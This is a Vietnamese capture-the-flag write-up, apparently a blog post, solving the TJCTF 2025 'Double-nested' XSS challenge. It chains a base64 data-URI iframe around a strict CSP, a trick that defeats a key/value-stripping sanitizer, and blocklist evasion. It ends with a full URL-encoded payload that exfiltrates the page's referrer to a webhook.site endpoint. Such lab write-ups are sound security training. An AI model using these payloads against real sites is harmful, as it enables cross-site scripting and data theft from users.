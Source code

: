 ```yaml
---
title: "JCCTF"
date: 2025-07-02
draft: false
description: "a description"
tags: ["example", "tag"]
---
```


# TJCTF - 2025

## Double-nested

### OverView

![image](https://hackmd.io/_uploads/BynGcDGSex.png)

```py=
def sanitize(input):
    input = re.sub(r"^(.*?=){,3}", "", input)
    forbidden = ["script", "http://", "&", "document", '"']
    if any([i in input.lower() for i in forbidden]) or len([i for i in range(len(input)) if input[i:i+2].lower()=="on"])!=len([i for i in range(len(input)) if input[i:i+8].lower()=="location"]): return 'Forbidden!'
    return input

```

1. Chức năng reg : `loại bỏ cặp 3 cặp key/value đầu `
   Ex : `a=b`
2. Black list các từ khoá dễ XSS => quên `alert()` 😃😃

Như ta thấy có CSP khá chặt

```python!
<meta http-equiv="Content-Security-Policy" content=" default-src 'self'; script-src 'self'; style-src 'self'; img-src 'none'; object-src 'none'; frame-src data:; manifest-src 'none'; ">
```

=> Rõ ràng là không thể XSS trực tiếp trên trang web

### Solve

Mục tiêu đầu tiên là thực thi được js đã
Như ta đã nói từ trước XSS không thể thực thi được tử trang web
Vậy có 1 con đường đó là `/gen`
![image](https://hackmd.io/_uploads/S1JDXAfHgg.png)
Để đến được đây thì phải qua được hai thứ

1. CSP
2. Sanitize

Dùng `<iframe src='data:text/html;base64, Nội dung thực thi js được decode base64'></iframe>` để bypass CSP

Dùng `http://localhost:5000/?i=%3D%3D%3D` kết hợp base64 để bypass được sanitize => loại bỏ được luận lí . Cốt lõi là dùng cái này`%3D%3D%3D` để loại bỏ 3 phần tử đầu
:::warning
Cần decode url trong cả `/` và `/gen`
:::
Alert(origin) => cho nó uy tín đã

```python!
<script>alert(origin)</script>
||
http://localhost:5000/gen?query=1%3D1%3Dalert%28origin%29
||
<script src="http://localhost:5000/gen?query=1%3D1%3Dalert%28origin%29"></script>
||
base64 => IDxzY3JpcHQgc3JjPSJodHRwOi8vbG9jYWxob3N0OjUwMDAvZ2VuP3F1ZXJ5PTElM0QxJTNEYWxlcnQlMjhvcmlnaW4lMjkiPjwvc2NyaXB0Pg==
||
<iframe src='data:text/html;base64,IDxzY3JpcHQgc3JjPSJodHRwOi8vbG9jYWxob3N0OjUwMDAvZ2VuP3F1ZXJ5PTElM0QxJTNEYWxlcnQlMjhvcmlnaW4lMjkiPjwvc2NyaXB0Pg=='></iframe>
||
URL endcode
%3Ciframe%20src%3D%27data%3Atext%2Fhtml%3Bbase64%2CIDxzY3JpcHQgc3JjPSJodHRwOi8vbG9jYWxob3N0OjUwMDAvZ2VuP3F1ZXJ5PTElM0QxJTNEYWxlcnQlMjhvcmlnaW4lMjkiPjwvc2NyaXB0Pg%3D%3D%27%3E%3C%2Fiframe%3E
||
gắn vào /
http://localhost:5000/?i=%3D%3D%3D%3Ciframe%20src%3D%27data%3Atext%2Fhtml%3Bbase64%2CIDxzY3JpcHQgc3JjPSJodHRwOi8vbG9jYWxob3N0OjUwMDAvZ2VuP3F1ZXJ5PTElM0QxJTNEYWxlcnQlMjhvcmlnaW4lMjkiPjwvc2NyaXB0Pg%3D%3D%27%3E%3C%2Fiframe%3E
```

![image](https://hackmd.io/_uploads/Sk9gH0MSle.png)
Auke giờ lấy flag nào
Tuy nhiên bị chặn tham số do document nằm trong black list
dùng open window
`top.location = 'https://webhook.site/d9d7c0aa-327d-4ea4-90f7-db6b0faf251e?i='+window['doc'+'ument'].referrer`
![image](https://hackmd.io/_uploads/r1CNdRzSgg.png)

thay nội dung `alert(1)` bằng `top.location = 'https://webhook.site/d9d7c0aa-327d-4ea4-90f7-db6b0faf251e?i='+window['doc'+'ument'].referrer` là xong
:::warning
Chú ý là thêm === vào sau tham số vì trong payload sau có chứa `on`
:::
Final payload

```!
%3Ciframe%20src%3D%27data%3Atext%2Fhtml%3Bbase64%2CPHNjcmlwdCBzcmM9Imh0dHA6Ly9sb2NhbGhvc3Q6NTAwMC9nZW4%2FcXVlcnk9PT09dG9wLmxvY2F0aW9uJTIwJTNEJTIwJTI3aHR0cHMlM0ElMkYlMkZ3ZWJob29rLnNpdGUlMkZkOWQ3YzBhYS0zMjdkLTRlYTQtOTBmNy1kYjZiMGZhZjI1MWUlM0ZpJTNEJTI3JTJCd2luZG93JTVCJTI3ZG9jJTI3JTJCJTI3dW1lbnQlMjclNUQucmVmZXJyZXIiPjwvc2NyaXB0Pg%3D%3D%27%3E%3C%2Fiframe%3E
```

![image](https://hackmd.io/_uploads/Skq6Y0MHlx.png)

### Kiến thức đạt được

- bypass CSP -> iframe
- bypass black list chứa document -> top.location .....
- bypass luận lí key/value `a` = `b`
